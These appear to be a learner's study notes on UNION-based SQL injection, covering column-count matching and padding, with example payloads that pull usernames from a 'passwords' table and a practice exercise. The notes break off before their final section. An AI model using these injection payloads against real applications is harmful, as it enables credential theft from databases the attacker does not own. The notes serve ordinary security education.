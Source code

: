 Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

TheÂ `products`Â table has two columns in the above example, so we have toÂ `UNION`Â with two columns. If we only wanted to get one column 'e.g.Â `username`', we have to doÂ `username, 2`, such that we have the same number of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. For example, if the original query usedÂ `SELECT`Â on a table with four columns, ourÂ `UNION`Â injection would be:

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

This query would return:

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

As we can see, our wanted output of the '`UNION SELECT username from passwords`' query is found at the first column of the second row, while the numbers filled the remaining columns.

# Question
---

![Pasted image 20250131165907.png](../../../../IMAGES/Pasted%20image%2020250131165907.png)

We can use the following in order to check:

```ad-hint
1. `select * from employees limit 5;`
2. `select * from departments limit 5;`
3. `select dept_no FROM departments UNION select emp_no FROM employees;`
```

Let's ask DeepSeek for a further understanding of the process:
